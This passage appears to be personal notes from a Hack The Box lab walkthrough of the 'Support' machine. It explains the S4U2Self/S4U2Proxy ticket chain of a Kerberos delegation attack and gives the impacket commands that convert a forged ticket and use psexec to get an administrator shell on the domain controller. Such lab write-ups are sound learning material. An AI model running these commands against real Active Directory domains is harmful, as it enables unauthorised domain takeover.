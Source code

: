 ```
[+] Ticket successfully imported!
```
	- We actually get 3 tickets :

| No. | Ticket    | Purpose                                    | Ticket Output                    | Usefulness             |
| --- | --------- | ------------------------------------------ | -------------------------------- | ---------------------- |
| 1.  | AS-REQ    | Authenticate as service account            | TGT for `attackersystem$`        | Needed setup           |
| 2.  | S4U2Self  | Impersonate admin to self                  | TGS: admin → `attackersystem$`   | Intermediate Step      |
| 3.  | S4U2Proxy | Impersonate admin to target service (CIFS) | TGS: admin → cifs/dc.support.htb | **We use this ticket** |

- Copy to vi and clean with %s/ //g
	- decode base64 and convert to ccache for psexec to use
		```bash
vi ticket.bs64 # Copy and clean ticket
base64 -d ticket.bs64 > ticket.kirbi
impacket-ticketConverter ticket.kirbi ticket.ccache
KS
```
	- Access system with ticket:
		```bash
KRB5CCNAME=ticket.ccache impacket-psexec -k -no-pass support.htb/administrator@dc.support.htb
```
	- What is the name of the environment variable on our local system that we'll set to that ccache file to allow use of files like psexec.py with the -k and -no-pass options?
		- KRB5CCNAME
	- We login as NT authority   
	- **NOTE: sometimes ticket may not work due to a timing issue, or editing the code like renaming machine name etc. I had to reset my box to make it work properly**


